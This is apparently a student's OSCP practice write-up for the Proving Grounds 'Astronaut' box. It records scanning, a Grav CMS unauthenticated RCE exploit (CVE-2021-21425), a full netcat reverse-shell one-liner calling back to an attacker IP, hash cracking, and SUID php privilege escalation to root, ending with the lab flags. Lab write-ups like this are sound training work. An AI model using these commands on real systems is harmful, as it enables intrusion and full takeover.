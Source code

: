 ```yaml
---
Date: 2024-10-03
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Easy
Status: In progress
IP: 192.168.155.12
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-20-proving-grounds-astronaut-627bc41a86ef
---
```

# Astronaut
Much quicker and more useful experience than `Exfiltrated`. Did my own enumeration, and used the [walkthrough](https://medium.com/@ardian.danny/oscp-practice-series-20-proving-grounds-astronaut-627bc41a86ef) only as a guide when getting stuck. 

Discovering "blind" exploits was interesting, however it made sense that if the exploit isn't generating any output and not creating a reverse shell, that you might need to add a `-c` command with a line of bash to establish a reverse shell instead. Although once again all the instructions were in the script if you looked - ***always read the script!***

It's been awhile since I did Linux Priv Esc too, so refreshing that was handy - I've added a few extra details to the Linux PrivEsc section of the cheatsheet, but I suspect it'll be polished up as I do more Linux boxes.

# Resolution summary
- Ran nmap to find SSH & HTTP (Targeted HTTP for initial enumeration)
- Default installation of `grav-admin`, identified potential exploit
- Ran exploit without output
	- Determined it was blind and ran again with a reverse shell command
	- Achieved shell and enumerated server
- Identified privilege escalation through `php7.4` binary using `SUID`
	- Achieved root access and printed `proof.txt`
## Improved skills
- Abusing Linux binaries
- Running a blind exploit
## Used tools
- nmap
- gobuster
- Hashcat

---

# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN nmap 192.168.155.12 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 20:46
Completed NSE at 20:46, 0.00s elapsed
Initiating NSE at 20:46
Completed NSE at 20:46, 0.00s elapsed
Initiating NSE at 20:46
Completed NSE at 20:46, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.23 seconds
           Raw packets sent: 1235 (54.316KB) | Rcvd: 1018 (40.716KB)
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 8.2p1)
No enumeration conducted
## Port 80 - HTTP (Apache/2.4.41)
- Visited `192.168.155.12` with Firefox
![[Cybersecurity-Resources/images/Pasted image 20241003204915.png]]
- Found default installation page for `grav-admin`
	- *Grav CMS is vulnerable to CVE-2021-21425  (Unauthenticated RCE)*
![[Cybersecurity-Resources/images/Pasted image 20241003205021.png]]
- Returned to terminal and ran `gobuster` against target:
  `gobuster dir -u  http://192.168.155.12/grav-admin -w //usr/share/dirb/wordlists/big.txt`
 ![[Cybersecurity-Resources/images/Pasted image 20241003211448.png]]
---
# Exploitation
## CVE-2021-21425  (Unauthenticated RCE)
- Identified exploit `49973.py`
- Modified exploit to suit target and local system
![[Cybersecurity-Resources/images/Pasted image 20241003212733.png]]
- Launched netcat listener: `nc -nvlp 4444`
- Ran `49973.py` with reverse shell command & established initial access:
  `python3 49973.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.198 4444 >/tmp/f' -t http://192.168.155.12/grav-admin` 
![[Cybersecurity-Resources/images/Pasted image 20241003213052.png]]
---
# Lateral Movement to user
## Local Enumeration
- Enumerated files to find `admin` user with password hash `$2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.`
![[Cybersecurity-Resources/images/Pasted image 20241003215228.png]]
	- Hash identified as `bcrypt`
![[Cybersecurity-Resources/images/Pasted image 20241003214410.png]]
	- Attempted to cracked with Hashcat:
  `hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt --force`
		- Cancelled: Expected to completion >3 days
- Enumerated `/etc/passwd`
![[Cybersecurity-Resources/images/Pasted image 20241003215518.png]]
	- Identified user `alex:x:1000:1000::/home/alex:/bin/bash`
		- Unable to access `/home/alex`
		![[Cybersecurity-Resources/images/Pasted image 20241003215720.png]]
---
# Privilege Escalation
## Local Enumeration
Attempted to upload `linpeas.sh` without success
![[Cybersecurity-Resources/images/Pasted image 20241003213359.png]]
Enumerated binary permissions
![[Cybersecurity-Resources/images/Pasted image 20241003222357.png]]
## Privilege Escalation vector
Checked GTFO bins for potential privilege escalation
	- `php` with `SUID` bit set [GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
```
CMD="/bin/sh"`
./php -r "pcntl_exec('/bin/sh', ['-p']);"`
```
- Achieved root access through privilege escalation & printed `proof.txt`
![[Cybersecurity-Resources/images/Pasted image 20241003223019.png]]
---
# Trophy & Loot
`flag1.txt` = `T2Zmc2Vj`
`proof.txt` = `bf9dd3d702bddd63bd4c931118340192`